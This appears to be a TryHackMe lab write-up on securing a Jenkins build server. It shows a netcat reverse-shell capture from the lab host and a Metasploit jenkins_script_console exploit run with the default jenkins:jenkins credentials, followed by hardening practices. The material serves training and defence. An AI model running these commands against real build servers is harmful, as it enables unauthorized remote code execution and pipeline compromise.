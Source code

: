 ```textarea

root@AttackBox:~$ nc -lvp 8081
Listening on 0.0.0.0 8081
Connection received on jenkins.tryhackme.loc 55994
/bin/sh: 0: can't access tty; job control turned off
$ whoami
ubuntu
```


# Task 7 : Securing the build Server


## Overview
Our build process is secured, but the build server itself remains vulnerable. If an attacker gains access to the build server, they could compromise both the pipeline and the build artifacts.

## Build Server Basics

1. **Access Control**: Secure the build server by enforcing strict access controls.
   - Use unique credentials for each user.
   - Implement multi-factor authentication (MFA).

2. **Credential Hygiene**: Avoid using default credentials like `jenkins:jenkins`, as these are often targeted in brute-force attacks.

## Exposed Build Server

### Accessing Jenkins
- **URL**: `http://jenkins.tryhackme.loc:8080/`
- **Login Attempt**: Using default credentials (`jenkins:jenkins`) may allow unauthorized access.

### Using Metasploit to Attack Jenkins
1. Launch Metasploit:
   ```bash
   msfconsole
    msf6 > use exploit/multi/http/jenkins_script_console
    msf6 exploit(multi/http/jenkins_script_console) > set target 1
    msf6 exploit(multi/http/jenkins_script_console) > set payload linux/x64/meterpreter/bind_tcp
    msf6 exploit(multi/http/jenkins_script_console) > set username jenkins
    msf6 exploit(multi/http/jenkins_script_console) > set password jenkins
    msf6 exploit(multi/http/jenkins_script_console) > set RHOST jenkins.tryhackme.loc
    msf6 exploit(multi/http/jenkins_script_console) > run
    ```

### Manual Exploitation
You can access the Jenkins script console to execute Groovy scripts for command execution.

## Protecting the Build Server

To safeguard the build server and agents, follow these best practices:

- **Build Agent Configuration**: Ensure build agents only connect to the build server and are not exposed externally.
- **Private Network**: Isolate build agents in a private network with no direct internet access.
- **Firewalls**: Restrict incoming traffic to only essential build server connections.
- **VPN**: Use a VPN for secure remote access to the build server and agents.
- **Token-Based Authentication**: Use tokens to authenticate build agents securely.
- **SSH Keys**: For SSH-based agents, use secure SSH keys.
- **Continuous Monitoring**: Regularly monitor build server and agent logs for unusual activity.
- **Regular Updates**: Keep build servers and agents up-to-date with security patches.
   ```